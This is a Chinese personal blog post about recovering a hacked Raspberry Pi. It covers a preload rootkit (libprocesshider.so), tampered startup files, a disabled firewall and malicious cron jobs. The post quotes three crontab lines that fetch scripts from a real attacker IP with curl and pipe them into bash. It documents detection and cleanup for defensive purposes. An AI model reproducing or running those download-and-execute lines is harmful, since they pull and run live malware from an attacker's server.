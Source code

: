 ```yaml
---
title: 记一次树莓派被黑后紧急恢复系统和应用的经历
date: 2020-11-28 22:22:22
img: "/images/RaspberryPi 4B.jpg"
cover: fasle
coverImg: "/images/RaspberryPi 4B.jpg"
toc: false
mathjax: false
categories: 触类旁通
tags:
  - 树莓派
  - 恢复
keywords: 树莓派
summary: 今天突然发现家里树莓派都访问不了，内网穿透全挂了，回家后发现应用也都停了，后来发现是中毒了，好在只有一台树莓派被黑，真是吓尿了...
---
```


## 记一次树莓派被黑后紧急恢复系统和应用的经历

当时的情况是在外面发现我的博客和其他应用都打不开了

然后连 ssh 想看下怎么回事， 发现 ssh 也连不上了，每一台树莓派都连不上了，应该是内网穿透(`frp`)挂了

到家后 ssh 登录内网穿透所在机器，发现到处都在提示 `.../etc/ld.so.preload cannot be preloaded...`

ssh 登录时提示, 使用 docker 命令时等等, 并且 docker 命令全都无法使用, 试了下其他机器，还好其他机器正常

不仅内网穿透挂了，docker 也挂了，开机启动项也都没了

赶紧查查这个提示是啥玩意...

## 在病毒迫害下挣扎

查资料说把 `ld.so.preload` 清空就行了 

```shell
echo "" > /etc/ld.so.preload
reboot
```

清空后重启，还真有效，正常了，重新设置一下内网穿透和开机启动配置

```shell
vim frp/frpc_baozi.ini
vim /etc/rc.local
```

`:wq` 告诉我 `rc.local` 保存失败?! 发现状态是新文件, 从另一个树莓派上传过来 一下试试

```jshell
scp root@192.168.6.130:/etc/rc.local /etc/rc.local
```

我去，又提示文件或文件夹不存在, 进入目录查看，却又发现文件存在...好吧，进去看看啥情况

```shell
cd /etc
ls
```

发现开机启动配置文件 `rc.local` 在啊！

再次编辑 `rc.local` 文件仍然提示是新文件？！

查看文件信息啥情况...

```shell
ls -l rc.l*
```

发现这玩意是个链接, 链接到的 `/etc/rc.d/rc.local`...！ **就在此时系统又出问题了**...再次清空重启(`echo "" > /etc/ld.so.preload && reboot`)后正常

查看另一个树莓派中 `/etc/ld.so.preload` 是有内容的，编辑文件与另一个树莓派的值一样后重启

```shell
vim /etc/ld.so.preload
reboot
```

再次设置内网穿透和启动项，没配完**又跪了**...

再再再次清空和重启(`echo "" > /etc/ld.so.preload && reboot`), 感觉是被黑了，查看最近历史命令 `history 1000`, 没发现什么异常, 好吧没啥头绪

但是既然刚才发现这个是连接，干脆删了，从另一个树莓派再穿一次过来试试, 看看可不可以

```shell
rm -rf rc.local
scp root@192.168.6.130:/etc/rc.local /etc/rc.local
cat /etc/rc.local
```
这次查看文件内容正常, 紧接着**叕开始报错了！！！** 清空，重启！

此时我敢肯定是被种木马了...

## 反击

赶紧趁现在还能偶尔正常操作会儿，备份下 docker 镜像

```shell
docker login
docker push crazybun/arm-jenkins-jdk8
docker push crazybun/arm-oracle-jdk
docker push crazybun/maven
```

又不正常了，报错的时候 docker 也会跪, 发现 `rc.local` 又变了, **有东西`一直`在改我系统文件**

查了下可以用 `chattr` 给文件或文件夹加锁/解锁

清空，这回给 `/etc` 目录加锁后重启

```shell
echo "" > /etc/ld.so.preload
chattr +i /etc
reboot
```

这总是一会儿就跪，有定时任务吧，查看定时任务看看有没有什么猫腻

```shell
crontab -l
# 多了这么三行
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/xanthe | bash -s >/dev/null 2>&1
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/xesa.txt | bash -s >/dev/null 2>&1
*/30 * * * * curl -A fczyo-cron/1.5 -sL http://34.92.166.158:8080/files/fczyo | bash -s >/dev/null 2>&1
```

卧槽还真有东西！在 windows 打开一个连接立刻就报病毒了！

立刻编辑定时任务删掉这些不是我添加的定时任务，重启

```shell
crontab -e
reboot
```

检查防火墙状态...结果是空的，之前的配置都没了，貌似所有端口都允许访问了, 防火墙被关了...

```shell
# 查看防火墙状态
sudo ufw status
# 开启防火墙
sudo ufw enable
# 默认全部拒绝
sudo ufw default deny
# 添加自己允许访问的端口
sudo ufw allow ...
# 检查状态
sudo ufw status
```

给定时任务目录也加锁

```shell
chattr +i /var/spool/cron/
```

查看 `lib` 是否有多余的包, 对比另一个树莓派，还真有一个 `libprocesshider.so`

```shell
cd /usr/local/lib
ls -l
```

查看修改创建时间，就昨天创建的。。。赶紧删掉！

```shell
stat libprocesshider.so
rm -f libprocesshider.so
```

暂时是想不到其他东西了，但还是很害怕，好在这个树莓派里只有几个应用，数据库不在这里...

还是备份好应用后重装系统保险些，暂时先恢复应用跑起来吧，好歹也写了个简易自动交(kui)易(qian)程序呢，应用停了感觉亏(zhuan)了一个亿！

## 恢复

回头继续配置内网穿透

对比另一个树莓派中 `rc.local` 链接的目标是不存在的，解锁，删除！从另一个树莓派中再拷贝过来，修改配置，加锁重启一气呵成

```shell
chattr -i /etc
rm -rf /etc/rc.d/rc.local
rm -rf rc.local
scp root@192.168.6.130:/etc/rc.local ./rc.local
vim /etc/rc.local
chattr +i /etc
reboot
```

内网穿透开机自启终于正常工作了，应用也稳定跑起来了

终于告一段落，有时间重装下系统最稳，不知道还有啥东西被改了呢。。。
